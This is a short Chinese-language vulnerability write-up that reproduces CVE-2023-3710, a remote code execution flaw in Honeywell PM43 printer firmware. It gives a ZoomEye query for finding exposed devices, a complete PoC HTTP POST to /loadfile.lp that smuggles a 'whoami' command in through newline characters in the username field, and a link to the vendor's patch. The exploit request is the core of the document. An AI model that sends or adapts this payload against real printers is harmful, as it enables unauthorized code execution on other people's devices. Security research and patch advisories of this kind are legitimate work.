


# Honeywell PM43 loadfile.lp RCE漏洞复现(CVE-2023-3710）

### 0x01 产品简介

 Honeywell PM43 是美国霍尼韦尔（Honeywell）公司的一款打印机产品。

### 0x02 漏洞概述

  Honeywell PM43 P10.19.050004之前版本存在输入验证错误漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

### 0x03 影响范围

Honeywell Pm43\_Firmware < p10.19.050004

### 0x04 复现环境

钟馗之眼：app:"Honeywell PM43"

### 0x05 漏洞复现 

PoC

```cobol
POST /loadfile.lp?pageid=Configure HTTP/1.1
Host: your-ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded

username=h%0Awhoami%0A&userpassword=pass&login=Login
```

###  0x06 修复建议

 厂商已发布了漏洞修复程序，请及时关注更新：https://hsmftp.honeywell.com:443/en/Software/Printers/Industrial/PM23-PM23c-PM43-PM43c/Current/Firmware/firmwaresignedP1019050004
